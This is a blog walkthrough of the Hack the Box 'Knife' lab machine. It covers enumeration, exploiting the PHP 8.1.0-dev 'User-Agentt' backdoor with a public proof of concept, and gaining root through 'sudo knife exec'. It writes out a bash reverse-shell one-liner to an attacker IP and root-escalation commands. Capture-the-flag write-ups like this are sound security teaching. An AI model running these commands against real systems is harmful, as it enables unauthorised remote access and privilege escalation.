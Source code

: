 +++
author = "Nick"
categories = ["hack the box", "Linux", "easy", "php backdoor", "php 8.1.0-dev", "knife"]
date = 2021-08-28T16:35:39Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2021/08/knife.png"
slug = "hack-the-box-knife"
summary = "Welcome back! Today we are doing the Hack the Box machine - Knife. This is listed as an easy Linux machine. Let's start!\n"
tags = ["hack the box", "Linux", "easy", "php backdoor", "php 8.1.0-dev", "knife"]
title = "Hack the Box - Knife"

+++


Welcome back! Today we are doing the Hack the Box machine - Knife. This is listed as an easy Linux machine. Let's start!

As usual, we start with `nmap`:

```
Nmap scan report for 10.10.10.242
Host is up (0.050s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When we view what's being hosted on port 80 we are brough to a hospital hosting site. There isn't anything notable on the site that we can access. We'll start by enumerating with `ffuf`.

Command:
`ffuf -u http://10.10.10.242/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -t 50 -fs 277`

In this case we use the `-fs` to hide responses with a size of 277 because of the amount of false positives. There is nothing additional. So we move on to using `Burpsuite`. When we load up `Burpsuite` and view our request / response, we see a hint:

![](/images/2021/08/image.png)

The `X-Powered-By` Header value. The first google results gives us [this](https://packetstormsecurity.com/files/162864/PHP-8.1.0-dev-Backdoor-Remote-Command-Execution.html). They were so kind to even give us a PoC script. We download the PoC and execute it:

Command:
`python3 exploit.py -l http://10.10.10.242`

When we run it, we get an interactive shell back.

![](/images/2021/08/image-1.png)

We use `which nc` to identify if `netcat` is on the system.

![](/images/2021/08/image-2.png)

We attempt to use `netcat` to create a shell back, but it doesn't work.

![](/images/2021/08/image-3.png)

So instead of `netcat` we'll try to catch a shell with a `bash` command.

Command:
`bash -i >& /dev/tcp/10.10.14.68/6969 0>&1`

That didn't work either. So, there is a space on this PoC for proxy interface. We'll simply uncomment it and let the requests go through `Burpsuite` so we can see what's being sent.

![](/images/2021/08/image-4.png)

Now with our requests coming through Burp, we can see what's being sent. In actuallity its just a simple header value - `User-Agentt` is the value we can modify to obtain the backdoor.

![](/images/2021/08/image-5.png)

We modify the request as it comes through to send us a shell to a `netcat` listener on port 6969

![](/images/2021/08/image-6.png)

Next we check to see what we can run as `root` with `sudo -l`

![](/images/2021/08/image-7.png)

We see that we can run an app called `knife`. Some googling finds us the [documentation](https://docs.chef.io/workstation/knife_exec/). There's a section for `exec`. This function lets us execute codes through itself. After some trial and error, we were able to craft a command to get the root flag.

Command:
`sudo /usr/bin/knife exec -E "exec 'cat /root/root.txt'"`

Now you could also call an interactive `bash` shell and work that way

Command:
`sudo /usr/bin/knife exec -E "exec '/bin/bash -i'"`

Either way gets us our `root.txt` flag! This was a very fast and simple box. The hardest part was understanding the `exec` pattern in the `Knife` command.



